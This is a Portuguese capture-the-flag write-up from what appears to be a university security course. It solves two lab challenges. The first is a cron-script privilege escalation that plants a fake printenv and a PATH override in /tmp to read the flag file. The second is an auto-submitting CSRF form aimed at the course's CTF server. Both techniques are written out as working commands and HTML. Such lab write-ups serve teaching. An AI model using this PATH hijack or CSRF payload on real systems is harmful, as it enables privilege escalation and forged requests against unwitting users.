

# Desafios Extra/Opcionais

## British Punctuality

Explorando inicialmente o servidor, encontramos no diretório `home/flag_reader` um script `my_script.sh` que faz uso de um executável `/home/flag_reader/reader` cujo código fonte podemos ler no ficheiro `main.c`. Não temos permissões para escrever para nenhum destes ficheiros. Encontramos também  um diretório `flags` onde se encontra a flag que procuramos (`/flags/flag.txt`), no entanto, como seria esperado, não temos permissões para aceder a este diretório.  

`my_script.sh`  
```shell
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```  

`main.c`  
```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```  

 
```bash
nobody@330311abc802:/home/flag_reader$ cd ../..
nobody@330311abc802:/$ ls -d -l flags
drwxr-x--- 2 root flag_reader 60 Dec 17 16:15 flags
nobody@330311abc802:/$ cd flags
bash: cd: flags: Permission denied
```  

Destas informações percebemos que para chegar à flag vamos precisar das permissões do utilizador `flag_reader` (`root` também funcionaria).  

Atendendo ao nome do desafio e há descrição *This challenge runs with a strict schedule* surge-nos a ideia do `cron`, um *job scheduller* para sistemas Unix.   

No diretório `etc/cron.d` encontramos um ficheiro `my_cron_script`.  

`my_cron_script`  
```shell
PATH=/bin:/usr/bin:/usr/local/bin

* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```  

Interpretando o ficheiro percebemos que, a cada minuto, o script `my_script.sh` é corrido e o output do mesmo é escrito no ficheiro `/tmp/last_log`. Sabemos também que isto é feito com as permissões do utilizador `flag_reader`. Assim, a solução passa por encontrar e explorar uma vulnerabilidade no script que nos permita ler o ficheiro que contém a flag. No script é utilizado o comando `export`, pelo que concluimos que podemos, ao criar o ficheiro `tmp/env` alterar (por um minuto) as variáveis de ambiente do utilizador `flag_reader`. Isto é importante pois logo depois é utilizado o comando `printenv`, sem a indicação do caminho para o binário.  

```bash  
nobody@330311abc802:/$ whereis printenv
printenv: /usr/bin/printenv
```  

Juntando estas informações, podemos criar um novo ficheiro `printenv`, e adicionar o seu caminho à variável `PATH` para que seja utilizado no lugar do binário predefinido, podendo correr qualquer código shell com as permissões que queremos.

```bash
nobody@330311abc802:/tmp$ echo "PATH=/tmp:$PATH" > env
nobody@330311abc802:/tmp$ echo "cat /flags/flag.txt" > printenv
```

Depois do script ser executado basta ler o conteúdo do ficheiro `/tmp/last_log` e uma das linhas será a flag.

## Apply For Flag II

 

 

 

 

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<requestID>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
</form>

<script> 
    window.onload = function(){
        document.getElementById('giveflag').click();
    } 
</script>
``` 

- Nota: neste caso `<requestID>` seria `fa9d70d9d2ed6c76ac2f46f6f203bb80b6f46dbb`.

 

 

 


